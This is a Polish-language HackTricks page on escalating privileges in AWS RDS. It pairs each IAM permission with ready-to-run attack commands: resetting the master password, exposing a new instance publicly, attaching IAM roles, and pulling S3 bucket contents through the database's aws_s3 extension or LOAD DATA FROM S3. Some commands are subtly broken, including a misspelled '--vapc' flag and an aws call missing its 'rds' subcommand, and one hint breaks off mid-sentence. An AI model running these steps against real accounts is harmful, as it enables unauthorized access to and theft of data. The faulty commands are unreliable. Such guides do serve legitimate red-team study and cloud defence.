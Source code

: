 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - Relacyjna Usługa Baz Danych

Aby uzyskać więcej informacji o RDS, sprawdź:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Dzięki temu uprawnieniu atakujący może **zmienić hasło głównego użytkownika** oraz logowanie w bazie danych:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Będziesz musiał **skontaktować się z bazą danych** (zwykle są one dostępne tylko z wewnętrznych sieci).
{% endhint %}

**Potencjalny wpływ:** Znalezienie wrażliwych informacji w bazach danych.

### rds-db:connect

Zgodnie z [**dokumentacją**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) użytkownik z tym uprawnieniem mógłby połączyć się z instancją DB.

### Nadużycie uprawnień roli RDS IAM

#### Postgresql (Aurora)

{% hint style="success" %}
Jeśli uruchamiając **`SELECT datname FROM pg_database;`** znajdziesz bazę danych o nazwie **`rdsadmin`**, wiesz, że jesteś w **bazie danych AWS postgresql**.
{% endhint %}

Najpierw możesz sprawdzić, czy ta baza danych była używana do uzyskania dostępu do jakiejkolwiek innej usługi AWS. Możesz to sprawdzić, patrząc na zainstalowane rozszerzenia:
```sql
SELECT * FROM pg_extension;
```
Jeśli znajdziesz coś takiego jak **`aws_s3`**, możesz założyć, że ta baza danych ma **jakiegoś rodzaju dostęp do S3** (są inne rozszerzenia, takie jak **`aws_ml`** i **`aws_lambda`**).

Również, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`**, możesz zobaczyć, czy **klaster ma przypisaną jakąkolwiek rolę IAM** w polu **`AssociatedRoles`**. Jeśli tak, możesz założyć, że baza danych była **przygotowana do uzyskania dostępu do innych usług AWS**. Na podstawie **nazwa roli** (lub jeśli możesz uzyskać **uprawnienia** roli) możesz **zgadnąć**, jaki dodatkowy dostęp ma baza danych.

Teraz, aby **przeczytać plik w obrębie bucketu**, musisz znać pełną ścieżkę. Możesz to przeczytać za pomocą:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Jeśli miałeś **surowe dane uwierzytelniające AWS**, mógłbyś je również wykorzystać do uzyskania dostępu do danych S3 za pomocą:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **nie musi zmieniać żadnej zmiennej grupy parametrów**, aby uzyskać dostęp do S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Wewnątrz mysql, jeśli uruchomisz zapytanie **`SELECT User, Host FROM mysql.user;`** i jest użytkownik o nazwie **`rdsadmin`**, możesz założyć, że jesteś w **AWS RDS mysql db**.
{% endhint %}

Wewnątrz mysql uruchom **`show variables;`** i jeśli zmienne takie jak **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, mają wartości, możesz założyć, że baza danych jest przygotowana do uzyskania dostępu do danych S3.

Ponadto, jeśli masz uprawnienia do uruchomienia **`aws rds describe-db-clusters`**, możesz sprawdzić, czy klaster ma jakąkolwiek **powiązaną rolę**, co zazwyczaj oznacza dostęp do usług AWS).

Teraz, aby **przeczytać plik w obrębie bucketu**, musisz znać pełną ścieżkę. Możesz go przeczytać za pomocą:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Atakujący z uprawnieniami `rds:AddRoleToDBCluster` i `iam:PassRole` może **dodać określoną rolę do istniejącej instancji RDS**. Może to umożliwić atakującemu **dostęp do wrażliwych danych** lub modyfikację danych w obrębie instancji.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potencjalny wpływ**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.\
Należy zauważyć, że niektóre bazy danych wymagają dodatkowych konfiguracji, takich jak Mysql, który musi określić ARN roli w grupach parametrów.

### `rds:CreateDBInstance`

Tylko z tym uprawnieniem atakujący mógłby stworzyć **nową instancję w istniejącym klastrze**, która już istnieje i ma przypisaną **rolę IAM**. Nie będzie mógł zmienić hasła głównego użytkownika, ale może być w stanie wystawić nową instancję bazy danych do internetu:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Atakujący z uprawnieniami `rds:CreateDBInstance` i `iam:PassRole` może **utworzyć nową instancję RDS z przypisaną określoną rolą**. Atakujący może następnie potencjalnie **uzyskać dostęp do wrażliwych danych** lub zmodyfikować dane w instancji.

{% hint style="warning" %}
Niektóre wymagania dotyczące roli/profilu instancji do przypisania (z [**tutaj**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil musi istnieć w Twoim koncie.
* Profil musi mieć rolę IAM, którą Amazon EC2 ma uprawnienia do przyjęcia.
* Nazwa profilu instancji i powiązana nazwa roli IAM muszą zaczynać się od prefiksu `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potencjalny wpływ**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Atakujący z uprawnieniami `rds:AddRoleToDBInstance` i `iam:PassRole` może **dodać określoną rolę do istniejącej instancji RDS**. Może to pozwolić atakującemu na **dostęp do wrażliwych danych** lub modyfikację danych w instancji.

{% hint style="warning" %}
Instancja DB musi być poza klastrem, aby to
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potencjalny wpływ**: Dostęp do wrażliwych danych lub nieautoryzowane modyfikacje danych w instancji RDS.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
